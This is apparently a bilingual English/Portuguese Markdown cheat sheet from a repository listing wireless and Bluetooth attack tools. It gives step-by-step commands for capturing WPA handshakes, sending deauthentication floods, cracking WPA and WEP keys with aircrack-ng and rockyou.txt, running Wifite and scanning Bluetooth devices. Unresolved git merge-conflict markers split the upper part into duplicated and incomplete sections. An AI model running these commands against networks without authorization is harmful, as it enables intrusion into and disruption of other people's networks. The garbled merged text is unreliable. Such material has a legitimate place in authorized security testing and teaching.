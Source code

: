  Wireless Security Tools

<<<<<<< HEAD
# WiFi Reconnaissance

 Aircrack-ng Suite
- aircrack-ng: WEP/WPA cracking

 Bettercap
- 

Wireshark
- Packet Analysis: Análise de pacotes

# Scripts Úteis
=======
 WiFi Reconnaissance

 Aircrack-ng Suite
- airmon-ng: Monitor mode management
- airodump-ng: Packet capture and analysis
- aireplay-ng: Packet injection
- aircrack-ng: WEP/WPA cracking

 Kismet
- Wireless Network Detector: Detecção de redes wireless
- Packet Sniffer: Captura de pacotes
- Intrusion Detection: Detecção de intrusões

 Wifite
- Automated WiFi Auditing: Auditoria automática
- WEP/WPA/WPS Attacks: Ataques automatizados

 Bluetooth Security

 Bluez Tools
- hcitool: Bluetooth device scanning
- bluetoothctl: Bluetooth management
- l2ping: Bluetooth ping

 Bettercap
- Bluetooth Attacks: Ataques Bluetooth
- BLE Attacks: Bluetooth Low Energy

 WiFi Attacks

 WEP Attacks
- Fragmentation Attack: Ataque de fragmentação
- Chopped Attack: Ataque chopchop
- ARP Replay: Replay de ARP

 WPA/WPA2 Attacks
- Dictionary Attack: Ataque de dicionário
- Handshake Capture: Captura de handshake
- PMKID Attack: Ataque PMKID

 WPS Attacks
- Pixie Dust: Ataque Pixie Dust
- PIN Brute Force: Força bruta de PIN
- Reaver: Ferramenta WPS

 Wireless Monitoring

 Wireshark
- Packet Analysis: Análise de pacotes
- Protocol Dissection: Dissecação de protocolos
- Traffic Analysis: Análise de tráfego

 Horst
- Lightweight Monitor: Monitor leve
- Real-time Analysis: Análise em tempo real

 Scripts Úteis
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

 Aircrack-ng workflow
 1. Ativar monitor mode
airmon-ng start wlan0

 2. Descobrir redes
airodump-ng wlan0mon

 3. Capturar handshake
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

 4. Deauth attack (noutra terminal)
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon

 5. Crack WPA/WPA2
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap

 Wifite automated attack
wifite --wpa --dict /usr/share/wordlists/rockyou.txt

 WEP cracking
 1. Capture packets
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep wlan0mon

 2. ARP replay attack
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h CLIENT_MAC wlan0mon

 3. Crack WEP
aircrack-ng wep-01.cap

 Bluetooth scanning
hcitool scan
bluetoothctl
scan on
pair MAC_ADDRESS

 Bettercap
bettercap -iface wlan0mon
wifi.recon on
wifi.show